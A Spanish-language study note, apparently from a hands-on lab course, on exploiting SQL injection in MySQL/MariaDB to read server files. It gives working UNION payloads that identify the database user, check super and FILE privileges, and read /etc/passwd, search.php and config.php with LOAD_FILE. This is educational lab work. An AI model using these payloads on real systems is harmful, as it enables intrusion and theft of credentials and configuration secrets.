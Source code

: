# Reading Files

Para obtener informaacion de varias tablas dentro del DBMS, una inyección SQL también se puede aprovechar para realizar muchas otras operaciones, como leer y escribir archivos en el servidor e incluso obtener ejecución remota de código en el servidor back-end.

## Privileges 

Leer informacion es mas comun que escribir, la cual esta estrictamente reservada por usuarios en DBMSes modernas, ya que puede llevar a la explotacion del sistema.

## DB User

Primero, tenemos que determinar que usuario somos dentro de la base de datos.

```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```
cn' UNION SELECT 1, user(), 3, 4-- -
```

```
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

## User Privileges

Ahora que sabemos nuestro usuario, podemos iniciar buscando que privilegios tenemos con este usuario. Primero tenemos que testear que tenemos super admin privileges con la siguiente consulta.

```
SELECT super_priv FROM mysql.user
```

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si tenemos muchos usuarios dentro de DBMS, podemos agregar **WHERE user="root"**, para solo mostrar privilegios con el usuario root

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

![alt text](image/26.png)

Si la consulta nos regresa **Y**, significa YES, indicando los privilegios de super usuario. Podemos agregar otros privilegios directamente con el siguiente query.

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Podemos agregar **WHERE grantee=" 'root'@'localhost'" para solo mostrar a nuestro actual usuario privilegios de super usuario (root)

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

finalmente veremos todos los prosibles privilegios que se dieron a nuestro usuario actual.

![alt text](image/27.png)

Bien ahora vemos que **FILE** esta permitido para nuestro usuario, por lo que tenemos habilitado leer y escribir archivos.

## LOAD_FILE

Ahora que tenemos permitido leer archivos podemos usar la funcion **LOAD_FILE()**, esta funcion puede ser usada en MariaDB/MySQL para leer archivos.

```
SELECT LOAD_FILE('/etc/passwd');
```

```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

![alt text](image/28.png)

```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

![alt text](image/29.png)

Ctrl + U

![alt text](image/30.png)

## Reto

![alt text](image.png)

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -